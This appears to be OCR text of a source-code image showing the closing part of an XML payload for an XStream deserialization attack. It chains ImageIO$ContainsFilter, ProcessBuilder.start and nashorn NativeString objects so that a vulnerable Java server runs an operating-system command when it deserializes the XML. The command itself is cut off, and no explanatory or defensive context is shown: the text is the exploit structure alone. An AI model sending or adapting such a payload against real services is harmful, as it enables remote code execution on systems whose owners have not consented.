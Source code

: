 ```xml
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>
```
